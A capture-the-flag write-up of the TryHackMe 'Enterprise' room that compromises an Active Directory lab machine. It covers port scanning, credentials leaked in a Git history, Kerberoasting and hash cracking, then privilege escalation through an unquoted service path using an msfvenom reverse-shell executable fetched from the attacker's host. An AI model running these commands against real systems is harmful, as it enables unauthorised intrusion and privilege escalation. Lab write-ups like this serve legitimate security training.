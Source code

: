 ```yaml
---
title: Enterprise Tryhackme Writeup
published: true
---
```


Today I bring you the writeup of [Enterprise](https://tryhackme.com/room/enterprise), a tryhackme machine focused on Active Directory exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP -Pn
```

With -p- we indicate that we want it to look at all ports, -Pn is not to make ping requests since it is a windows and blocks them and the --min-rate 5000 to do it very fast.

FOTO

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,7990,9389,47001,49664,49665,49666,49668,49669,49670,49672,49676,49701,49710,49833 --min-rate 5000 IP -Pn
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

FOTO

Now, let's add to /etc/hosts the domain name.

```shell
IP lab.enterprise.thm
```

FOTO 7

After a long time listing the different services of the machine we found this web where we are told that they are passed to [github](https://github.com/Enterprise-THM), let's check this github.

FOTO

FOTO

We see a [person](https://github.com/Nik-enterprise-dev) on that github, let's take a look at theirs.

FOTO

It has a repository, if we look at the [history](https://github.com/Nik-enterprise-dev/mgmtScript.ps1/commit/bc40c9f237bfbe7be7181e82bebe7c0087eb7ed8) of that repo we find a username and password.

FOTO

With the information we have and after listing several services with that name and password, we are going to use the impacket module GetUsersSPNs

This module will try to find Service Principal Names that are associated with normal user account.
#   Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request
#   will encrypt the ticket with the account the SPN is running under, this could be used for an offline
#   bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs.

```shell
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi!
```

FOTO

We have found a service called bitbucket, we are going to take its NTLM hash and then crack it.

```shell
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi! -request
```

FOTO

Let's save that hash and use hashcat to crack it.

```shell
hashcat -a 0 -m 13100 hash /home/m4luk0/wordlists/rockyou.txt
```

FOTO

Let's try to connect via RDP to the machine.

```shell
xfreerdp /u:bitbucket /p:littleredbucket /v:lab.enterprise.thm /dynamic-resolution
```

FOTO

If we enumerate the machine, we can find the [unquoted service](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#unquoted-service-paths) vulnerability wich is based on the fact that when windows has to read a path with spaces, i.e. C:\Windows\Hello World\test.exe windows will execute hello.exe, world.exe and then it will enter the directory; then, if we create a malicious exe called hello.exe it will execute it before entering that directory.

In windows:

```shell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

FOTO

We see that there is a directory called Zero Tier One, we will exploit the vulnerability explained above, we will create on our machine a malicious exe that will send us a shell.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o Zero.exe
```

FOTO

Now we are going to create a python server to pass it to windows.

```shell
python3 -m http.server
```

FOTO

Let's set the port to listen.

```shell
nc -lvp PORT
```

FOTO

In windows go to the folder and download the exe.

```shell
cd "C:\Program Files (x86)\Zero Tier"
wget http://10.8.155.220:8000/Zero.exe -o Zero.exe
```

FOTO

Now having everything ready we will only have to restart the service.

```shell
Start-Service -name "zerotieroneservice"
```

FOTO

FOTO

And so we would finish with this machine, thanks for reading.
